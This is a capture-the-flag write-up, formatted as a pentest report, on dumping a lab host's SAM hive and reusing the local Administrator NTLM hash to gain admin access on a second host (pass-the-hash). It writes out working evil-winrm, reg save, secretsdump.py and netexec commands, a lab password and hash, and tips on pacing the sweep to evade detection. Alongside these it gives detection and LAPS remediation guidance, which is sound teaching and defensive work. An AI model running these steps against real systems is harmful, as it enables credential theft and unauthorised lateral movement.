



**Category:** Misconfig | **Difficulty:** Medium | **Flag:** <details><summary>reveal</summary><code>EPI{P455_7h3_H45h_L1k3_4_Pro}</code></details>

> Description: *"Congrats on finding an administrator! You must have found
> the hash for all local users, right? What would happen if a user reuse
> its password? But that would be a problem only if you can crack the
> password right? The thing is, you don't need it, the hash is
> (scaringly) enough!"*

Working log: `challenges/baton-passer.md`. Related write-up:
[Catastrophic Failure](../catastrophic_failure/catastrophic_failure_tech.md)
(the investigation this finding was originally made during, before
platform attribution identified this as a separate, `LINKED_TO` node).

## Executive Summary

Building on prior administrative access to **ARGOS** (`10.42.0.102`,
obtained via `a.nozer`'s leaked onboarding default password — see
[Instructions Unclear](../instructions_unclear/instructions_unclear_tech.md)),
the host's local SAM/SYSTEM hives were dumped to recover the local
`Administrator` account's NTLM hash. That hash was never cracked — it was
used directly as a credential via **pass-the-hash** authentication,
swept against every other host in the environment. **ANUBIS**
(`10.42.0.130`) accepted the identical hash and granted local
Administrator access, confirming the two hosts' local Administrator
accounts share the same underlying password (no per-host password
randomization, i.e. no LAPS deployment). This flag was initially found
while investigating Catastrophic Failure but has no submission box there;
platform graph data (`LINKED_TO catastrophic-failure`) confirms "Baton
Passer" as its correct, independently-tracked owning node, matching the
challenge description's direct description of pass-the-hash technique.

## Investigation & Technical Analysis

### Technical Incident Overview

Windows NTLM authentication accepts a password's NTLM hash directly as
proof of identity — the protocol was never designed to require the
plaintext password at the point of authentication, only a value derived
from it. This means any party holding a valid NTLM hash can authenticate
as that account without ever recovering (or needing to recover) the
underlying plaintext password, a technique known as **Pass-the-Hash**
(MITRE ATT&CK **T1550.002 – Use Alternate Authentication Material: Pass
the Hash**). When local `Administrator` accounts across multiple hosts in
a fleet share the same password — common when hosts are provisioned from
a shared image or template with no subsequent per-host password
randomization — a single host's compromised local Administrator hash is
immediately reusable as a direct admin credential on every other host
sharing that password, with zero additional cracking effort.

### Scope & Methodology

- **Target domain:** HOUNDLABS.EPI, hosts across `10.42.0.0/24`.
- **Starting access:** local Administrator (SMB + WinRM) on ARGOS
  (`10.42.0.102`) via `a.nozer:F3nR1rS3c!` — see the companion
  Instructions Unclear write-up for how this foothold was obtained.
- **Tools used:** `evil-winrm` for the initial interactive session and
  remote registry hive export, `secretsdump.py` (Impacket) for offline
  SAM/SYSTEM hive parsing, `netexec` with `--local-auth` and a hash
  argument for the pass-the-hash sweep across all hosts.
- **Enumeration approach:** local credential-material extraction on an
  already-admin host → direct hash reuse (no cracking step) against every
  other known host in the environment, since local-admin password reuse
  cannot be predicted from AD/BloodHound data (it's a purely host-local
  SAM-level condition, invisible to directory-based analysis).
- **Evidence sources:** command output reproduced below;
  `challenges/catastrophic-failure.md` (the "Second attack chain" section,
  where this finding originated before being re-attributed to this node);
  `challenges/baton-passer.md` (the summarized, correctly-attributed
  working log).

### Attack Chain & Detailed Findings

**1. Precondition — local admin on ARGOS.** `a.nozer:F3nR1rS3c!` confirmed
as a genuine `BUILTIN\Administrators` member on ARGOS specifically
(`whoami /groups` over `evil-winrm` showing High Mandatory Level, not
merely `Remote Management Users` PSRemoting-only access).



**2. Local credential-material extraction (T1003.002 – OS Credential
Dumping: Security Account Manager).**

```sh
evil-winrm -i 10.42.0.102 -u a.nozer -p 'F3nR1rS3c!'
*Evil-WinRM* PS> reg save HKLM\SAM C:\Windows\Temp\sam.hive
*Evil-WinRM* PS> reg save HKLM\SYSTEM C:\Windows\Temp\system.hive
*Evil-WinRM* PS> download C:\Windows\Temp\sam.hive sam.hive
*Evil-WinRM* PS> download C:\Windows\Temp\system.hive system.hive
```

```sh
secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Recovered ARGOS local `Administrator` (RID 500) NTLM hash:
`fafb12f22417628bb6422e9bb8686f5c`.

<details><summary>netexec --sam --lsa dump showing the hash (spoiler — this screenshot, reused from Catastrophic Failure, also shows that challenge's own flag)</summary>



</details>

**3. No cracking attempted — the described technique's exact point.** The
hash was used as-is; offline cracking is explicitly unnecessary for
pass-the-hash and was not performed, consistent with the challenge
description's framing ("you don't need [the plaintext], the hash is
(scaringly) enough").

**4. Pass-the-hash sweep (T1550.002).**

```sh
netexec smb 10.42.0.106 10.42.0.109 10.42.0.130 10.42.0.157 10.42.0.178 \
  -u Administrator -H fafb12f22417628bb6422e9bb8686f5c --local-auth
```

Result: **ANUBIS (`10.42.0.130`) accepts the hash and returns `(admin)`**
— the other four hosts (PROCYON, SKOLL, SIRIUS, GARM) reject it, confirming
this is specific credential reuse between ARGOS and ANUBIS, not a
domain-wide shared secret or a false-positive accept-everything
misconfiguration.


**5. Interactive access and flag retrieval.**

```sh
evil-winrm -i 10.42.0.130 -u Administrator -H 'fafb12f22417628bb6422e9bb8686f5c'
*Evil-WinRM* PS> dir C:\Users\Administrator\Desktop
# flag5.txt
*Evil-WinRM* PS> type C:\Users\Administrator\Desktop\flag5.txt
```



<details><summary>Flag (spoiler — click to reveal screenshot and value)</summary>


```
EPI{P455_7h3_H45h_L1k3_4_Pro}
```

</details>

**MITRE ATT&CK mapping:**

| Technique | ID | Step |
|---|---|---|
| OS Credential Dumping: Security Account Manager | T1003.002 | Step 2 |
| Use Alternate Authentication Material: Pass the Hash | T1550.002 | Steps 3–4 |
| Valid Accounts: Local Accounts | T1078.001 | Steps 4–5 |

**Attacker operational security (would this have been flagged by a blue
team?):** The credential-extraction step (Step 2) carries the same loud,
well-signatured `reg save`/SAM-dump footprint discussed in the
Catastrophic Failure write-up — no way to make that quieter while
achieving the same result. The pass-the-hash sweep itself (Step 4) is
where pacing matters most: this engagement swept the recovered hash
against five other hosts in one batch invocation, which generates NTLM
Logon Type 3 events for the same account across multiple hosts within
seconds of each other — exactly the behavioral pattern a
lateral-movement detection rule looks for. A stealthier attacker, having
already identified (from directory data or prior recon) which hosts are
actually worth testing, would space individual authentication attempts
out over a longer window and limit the sweep to genuinely plausible
targets rather than every reachable host, trading completeness for a
footprint that blends into normal administrative traffic rather than
standing out as a burst.

### Root Cause Analysis

The root cause is **local Administrator password reuse across multiple
hosts**, with no per-host randomization mechanism (e.g. Microsoft LAPS)
deployed. This is almost always the result of provisioning multiple
machines from a shared base image or manual setup process that bakes in
an identical local-admin credential, with no subsequent process to
individualize it. The precondition that made this exploitable — initial
admin access on ARGOS — belongs to a separate finding
([Instructions Unclear](../instructions_unclear/instructions_unclear_tech.md));
this finding's own, independent root cause is specifically the shared
local-admin secret itself, which would remain a live lateral-movement risk
even if the initial-access vector into ARGOS were fixed, as long as any
other host is ever compromised by any means.

### Indicators of Compromise

- **Source host:** ARGOS, `10.42.0.102` (hash extraction point)
- **Target/compromised host:** ANUBIS, `10.42.0.130` (pass-the-hash
  target, admin-equivalent access)
- **Shared credential:** ARGOS/ANUBIS local `Administrator` NTLM hash
  `fafb12f22417628bb6422e9bb8686f5c` (RID 500) — identical on both hosts
- **Technique artifact:** `reg save` of `HKLM\SAM`/`HKLM\SYSTEM` on ARGOS
  (loud, well-known credential-dumping action)
- **Relevant Windows Event IDs (for detection, not observed in this
  lab):** Event ID `4624` with Logon Type 3 (network) and
  `Authentication Package: NTLM` for the `Administrator` account across
  multiple distinct hosts in a short window is the standard
  pass-the-hash detection signature; Sysmon/EDR alerts on `reg.exe save`
  targeting `SAM`/`SYSTEM` cover the extraction step itself (shared with
  the Catastrophic Failure finding's detection recommendations).
- **Not yet confirmed:** whether any additional hosts beyond ANUBIS also
  share this password — only the five non-ARGOS hosts tested
  (PROCYON/SKOLL/ANUBIS/SIRIUS/GARM) were covered by this sweep.

## Impact Analysis

- **Severity (illustrative CVSS v3.1 vector):**
  `AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H` — **~8.8 (High)**. Requires prior
  high privilege on a *source* host (`PR:H`, i.e. this is a lateral-movement
  technique, not an initial-access one), but the scope change (`S:C`) to a
  second, independently-administered host with no further privilege
  barrier reflects the severity of fleet-wide credential reuse.
- **Blast radius:** Any host whose local Administrator password matches
  another already-compromised host is immediately reachable with zero
  additional effort — this scales with however many hosts in the fleet
  share the same image/provisioning history. In this lab, confirmed for
  2 of 7 hosts (ARGOS → ANUBIS); the remaining hosts were tested and did
  not share this specific password, but the underlying provisioning
  practice (if it produced this one match) should be assumed to risk
  further matches elsewhere in a larger, real-world fleet.
- **Compounding factor:** this technique requires no interaction with the
  domain controller or Kerberos at all — it is local-SAM-level and
  entirely orthogonal to every AD-centric finding elsewhere in this
  engagement, meaning it would remain exploitable even if every domain
  credential in scope were rotated.
- **Business/legal consequence:** pass-the-hash is one of the most
  well-documented lateral-movement techniques in enterprise Windows
  environments (the direct motivation for Microsoft's own LAPS tooling
  and the "Red Forest"/tiered administration model); its presence here
  reflects a standard, well-understood hardening gap.

### Note on the earlier attribution ambiguity

This flag was originally located while working the Catastrophic Failure
challenge ("an administrator not listening") and initially assumed to
belong there, since it was found via a chain that began with that
challenge's own `a.nozer`/ARGOS foothold. The platform provided no
submission box for it under that node; the in-game description and the
graph's `LINKED_TO catastrophic-failure` edge instead confirmed it as this
separate, correctly-attributed node. This is documented as a reminder that
a real, literal flag found during one challenge's investigation is not
guaranteed to belong to that challenge — always verify a submission box
exists before treating a find as solved.

## Remediation & Recommendations

**Priority 1 — close the exposure:**
- Deploy **Microsoft LAPS** (or an equivalent) domain-wide so every host's
  local Administrator password is independently randomized and
  automatically rotated, eliminating cross-host password reuse entirely.
- Immediately rotate the shared local Administrator password on both
  ARGOS and ANUBIS (and any other host found to share it).
- Audit the fleet's provisioning process (base image, deployment
  scripting) to identify and fix whatever step is baking in an identical
  local-admin credential.

**Priority 2 — detection:**
- Monitor for the same account (especially `Administrator`) authenticating
  via NTLM (Logon Type 3) across multiple distinct hosts within a short
  time window — the standard pass-the-hash behavioral signature.
- Extend the SAM/SYSTEM-hive-dumping detection recommended in the
  Catastrophic Failure write-up, since it's the direct precondition for
  this technique.

**Priority 3 — structural:**
- Treat NTLM hashes with the same handling/storage sensitivity as
  plaintext passwords in all internal documentation and tooling — the
  "it's just a hash" framing is the exact misconception this challenge's
  description calls out.
- Consider disabling NTLM authentication fleet-wide where feasible (in
  favor of Kerberos-only), which removes pass-the-hash as a viable
  technique entirely, though this requires careful compatibility review.

## Appendices

- **A. Command transcript:** SAM/SYSTEM hive export and extraction,
  `secretsdump.py` parsing, pass-the-hash sweep, and `evil-winrm` flag
  retrieval — see Attack Chain section above for full commands and output.
- **B. Working log:** `challenges/baton-passer.md` (correctly-attributed
  summary) and `challenges/catastrophic-failure.md`'s "Second attack
  chain" section (the original investigation this finding was made
  during).
- **C. Related finding:**
  [Instructions Unclear](../instructions_unclear/instructions_unclear_tech.md)
  — the leaked onboarding default password that produced the initial
  ARGOS admin foothold this finding depends on.
- **D. Screenshots:** terminal captures embedded inline above — two
  reused from the Catastrophic Failure write-up's assets (the ARGOS admin
  confirmation and the SAM/LSA dump showing the hash, since both chains
  began from the same session), and three new captures of the
  pass-the-hash sweep and flag retrieval (`assets/01-pass-the-hash-sweep.png`
  through `assets/03-flag-retrieved.png`, captured 2026-10-25). Still
  TODO: a capture of the raw `secretsdump.py` output itself (the reused
  screenshot only shows netexec's inline `--sam --lsa` dump, not the
  manual secretsdump.py path).
